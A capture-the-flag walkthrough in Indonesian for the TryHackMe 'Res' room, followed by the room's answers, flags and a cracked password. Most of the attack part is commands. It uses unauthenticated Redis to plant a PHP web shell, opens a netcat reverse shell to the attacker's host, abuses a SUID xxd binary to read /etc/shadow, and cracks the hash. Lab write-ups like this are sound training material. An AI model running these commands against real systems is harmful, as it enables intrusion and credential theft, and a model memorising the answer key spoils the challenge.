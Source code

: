 # CTF - RES
- TryHackMe Challenge: https://tryhackme.com/room/res
- IP Machine: 10.10.191.28

## Port Scanning
- Baris perintah: `nmap -sV -p- -T4 <IP Machine>`

- Buka halaman web `http://<IP_machine>` di browser


## Redis Exploit
- Akses Redis dengan tool redis-cli dengan perintah `redis-cli -h <IP_Machine>`

- Buat Shell melalui Redis dengan perintah sebagai berikut
```sh
config set dir /var/www/html
config set dbfilename shell.php
set test "<?php system($_GET['cmd']) ?>"
save
```

- Lakukan pengujian shell melalui browser dengan url `http://10.10.191.28/shell.php?cmd=id`

- Buat Reverse Shell menggunakan netcat dengan perintah sebagai berikut:
```sh
nc -e /bin/bash <IP tun0> 4444
```

- Encode reverse shell menggunakan tool URL Encoder online https://www.urlencoder.org/
```sh
nc%20-e%20%2Fbin%2Fbash%20<IP tun0>%204444
```

- Buka terminal dan jalankan netcat dengan perintah `nc -lnvp <port>`

- Jalankan Reverse Shell melalui browser dengan url sebagai berikut:
```sh
http://<IP_Machine>/shell.php?cmd=nc%20-e%20%2Fbin%2Fbash%20<IP tun0>%204444
```

- Netcat berhasil terkoneksi

- Disini terlihat bahwa terminal belum interaktif. Jadi buat menjadi terminal interaktif dengan perintah sebagai berikut
```sh
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

## Gain Access
- Cari semua SUID yang dapat dieksekusi dengan perintah dibawah ini
```sh
find / -type f -user root -perm -4000 2>/dev/null
```

- Disini ditemukan SUID **/usr/bin/xxd**. Kita bisa memanfaatkan script di https://gtfobins.github.io/gtfobins/xxd/#file-read untuk melakukan eskalasi lebih lanjut. Gunakan script dibawah ini untuk membaca file **/etc/shadow** dan copy hash vianka
```sh
LFILE=/etc/shadow
/usr/bin/xxd "$LFILE" | /usr/bin/xxd -r
```

- Masukkan hash vianka ke dalam sebuah file dilocal dengan perintah `echo <hash> > <nama_file>`

- Crack hash vianka menggunakan tool john the ripper dengan perintah `john <wordlists> <hash_file>`

- Switch ke user vianka dengan perintah `su vianka` kemudian masukkan password yang sudah ditemukan

- Pada directory **/home** terdapat directory **vianka**. Pada directory **/home/vianka** terdapat file **user.txt** sebagai user flag. Buka file **user.txt**


## Pertanyaan dan Jawaban:

- **Pertanyaan:** Scan the machine, how many ports are open?
```sh
2
```

- **Pertanyaan:** What's is the database management system installed on the server?
```sh
redis
```

- **Pertanyaan:** What port is the database management system running on?
```sh
6379
```

- **Pertanyaan:** What's is the version of management system installed on the server?
```sh
6.0.7
```

- **Pertanyaan:** Compromise the machine and locate user.txt
```sh
thm{red1s_rce_w1thout_credent1als}
```

- **Pertanyaan:** What is the local user account password?
```sh
beautiful1
```

- **Pertanyaan:** Escalate privileges and obtain root.txt
```sh
thm{xxd_pr1v_escalat1on}
```